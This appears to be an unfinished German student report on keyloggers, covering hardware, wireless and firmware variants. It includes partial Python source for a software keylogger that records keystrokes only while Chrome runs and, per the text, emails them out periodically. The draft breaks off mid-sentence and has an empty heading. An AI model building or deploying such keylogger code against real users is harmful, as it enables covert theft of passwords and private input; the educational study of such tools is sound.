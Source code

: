 ## Gliederung

* Begriffsdefinition
* Vergleich unterschiedlicher Key-Logger
  * Drahtgebundene 
  * Drahtlose 
  * Firmenware Keylogger  
* Schutz vor Keylogger 
* Gafahrenbewertung 
* eigenen Key-Logger implementieren (Python)


# Begriffsdefinition 

# Drahtgebundene Hardware-Keylogger

Drahtgebunde Hardware-Keylogger sind Geräte, die zwischen der Tastatur und dem Rechner platziert werden. Der Hardware-Keylogger agiert dann als *"Man-in-the Middle"*. Das bedeutet, sämtliche Daten, die von der Tastatur an den Rechner versendet werden, durchqueren den Keylogger und können dadurch von dem Keylogger gespeichert oder über ein Netzwerk versendet werden. 
Auf der Website *keelog.com* können solche Hardware-Keylogger für 32 Euro erworben werden (Stand 2022). Die Seite wirbt mit einem 16GB großen Speicher, Kompatibilität mit  Windows, Linux und MacOS ohne zusätzliche Treiber und das Der Keylogger vom Rechner nicht detektiert werden kann.

# Drahtlose Keylogger

Viele Tastaturen benötigen keine physische Verbindung mit dem Rechner um Daten zu übertragen. Stattdessen findet die Datenübertragung über Funkwellen wie Bluetooth statt. Die drahtlose Übertragung kann somit nicht durch ein Hardware-Keylogger inspiziert werden. 
Bei der Tastatur handelt es sich jedoch um ein *Broadcast-Medium*, das bedeutet, die Tastatur versendet die Daten mithilfe von Elektromagnetischen Wellen in den gesamten Raum. Diese Wellen können von jedem Gerät in Reichweite der Tastatur gelesen werden. Damit die Daten der Tastatur somit nicht von dritten gelesen werden können ist es essentiell, das diese verschlüsselt werden. Marc Newlin aus dem Bastille Research Team hat bei Untersuchungen jedoch festgestellt, das besonders bei Preiswerten drahtlosen Tastaturen keine Verschlüsselung der Daten erfolgt [Newlin]. Durch die unverschlüsselte Übertragung entsteht neben dem Lesen von Daten eine weiter Sicherheitslücke. Ist das Übertragungsprotokoll zwischen Tastatur und Rechner bekannt, so kann der Angreifer auch Daten an den Rechner senden, der Angreifer kann somit Eingaben auf dem Rechner des Angegriffenen durchführen ohne einen direkten physischen Zugang zu dem Rechner zu besitzen. 
Einige Tastaturen verfügen über ein USB-Dongle, der an den Rechner angeschlossen wird und somit die Übertragung ermöglicht. Viele dieser Dongles übertragen in periodischen Zeitabständen Datenpakete. Ein Angreifer ist durch diese Datenpakete in der Lage ein Gebiet nach möglichen Schwachstellen zu Scannen. Die Verwendung von Verstärkern ermöglicht auch ein Scannen außerhalb von Bürogebäuden. 


# Firmware-Keylogger

Bei Firmware-keyloggern wird die Software der Tastatur um eine schadhafte Komponente erweitert. Diese Komponente könnte dann die Tastatureinschläge auch an den Angreifer weiterleiten. Auf der IT-Sicherheitskonferenz im Jahr 2009 hat K.Chen das Konzept anhand einer Apple-Tastatur erläutert [Chen]. In der Praxis sind jedoch keine größeren Angriffe durch Firmware-Keylogger publik geworden [Hessel].

# Software Keylogger Beispiel in Python

In dem Folgenden Beispiel wird gezeigt wie ein Keylogger in der Programmiersprache Python implementiert werden. Das erstellte Skript ist in der Lage die Tasteneinschläge des Nutzers zu registrieren und in eine globale `String` Variable zu speichern. In einem Periodischem Abstand wird der Inhalt dieser Variable per E-Mail verbreitet. 

Um den Keylogger zu Implementieren wird das `keyboard` Modul benötigt. 
Sämtliche Funktionalitäten des Keyloggers werden in einer Klasse implementiert. Die Klasse verfügt über ein `log` Attribut, in dem die aufgenommen Tastenschläge gespeichert werden und ein `intervall` Attribut, in dem Definiert wird, in welchen Abständen der Inhalt der String Variable geteilt wird. Zusätzlich kann bei der Objektinitialisierung noch angegeben werden wie die Informationen der `log` Variable geteilt werden, standardmäßig werden die Informationen durch E-Mails verbreitet,  siehe Konstruktor:

```
class Keylogger: 

  def __init__(self, interval, report_method="email"):
          # we gonna pass SEND_REPORT_EVERY to interval
          self.interval = interval
          self.report_method = report_method
          # this is the string variable that contains the log of all 
          # the keystrokes within `self.interval`
          self.log = ""
          # record start & end datetimes
          self.start_dt = datetime.now()
          self.end_dt = datetime.now()
```

Um auf ein Tastenschlag des Nutzers reagieren zu können, wird die `on_release()` Funktion des Keyboard-Modules verwendet. Die Funktion wird aufgerufen, sobald des Ereignis `KEY_UP` auftritt. Beim Aufrufen der Funktion wird eine Funktion als Parameter übergeben. Funktionen die als Parameter übergeben werden, nennt man `Callback-Funktionen`. In der Callback Funktion wird definiert, wie auf das Ereignis `KEY_UP` reagiert werden soll. 
In unserem Fall, sollen die Tastatureinschläge in der Variable `log` gespeichert werden. Hierbei werden einige Anpassungen vorgenommen, um die gespeicherten Informationen besser nutzen zu können, siehe `callback(self, event)` Funktion. Um die Datenmenge zu minimieren, werden die Laufenden Prozesse des Rechners abgefragt, und nur sobald der Browser Google Chrome aktiv ist werden die Tastatureinschläge mitgelesen. 

```
def callback(self, event):
        """
        This callback is invoked whenever a keyboard event is occured
        (i.e when a key is released in this example)
        """
        if "chrome.exe" in (i.name() for i in psutil.process_iter()):
            name = event.name
            if len(name) > 1:
                # not a character, special key (e.g ctrl, alt, etc.)
                # uppercase with []
                if name == "space":
                    # " " instead of "space"
                    name = " "
                elif name == "enter":
                    # add a new line whenever an ENTER is pressed
                    name = "[ENTER]\n"
                elif name == "decimal":
                    name = "."
                else:
                    # replace spaces with underscores
                    name = name.replace(" ", "_")
                    name = f"[{name.upper()}]"
            # finally, add the key name to our global `self.log` variable
            self.log += name
```

Nachdem 
## Bewertung 

- **Skizzieren Sie ein Beispiel** anhand dessen Sie die folgenden Fragen beantworten und erklären Sie kurz warum Sie speziell dieses gewählt haben:
- **Zeigen Sie die Sicherheitsaspekte** Ihres gewählten Beispiels auf und diskutieren Sie diese:
- Wählen Sie ein Szenario zu Fehlfunktion, Hack, Ausfall und beschreiben Sie die **Auswirkungen für die Betroffenen**:
- Beschreiben Sie nun Mechanismen um dem **entgegen zu wirken**, dies zu verhindern, zu erkennen, einzudämmen, darauf zu reagieren:


# Quellen 

[Newlin] Keysniffer technical details, Marc Newlin, Bastille Research Team, https://keysniffer.net/technical-details/


[Hessel] Hardware-Keylogger: Die Tastatur in der Hand des Feindes, Stefan Hessel,  Dipl.-Jur. Stephanie
Vogelgesang, Frederik Möllers, MSc., 2016, 
https://link.springer.com/content/pdf/10.1007/s11623-016-0692-9.pdf

[Chen] Reversing and exploiting an Apple firmware update, K. Chen, Georgia Institute of Technology, 2009, https://www.blackhat.com/presentations/bh-usa-09/CHEN/BHUSA09-Chen-RevAppleFirm-PAPER.pdf
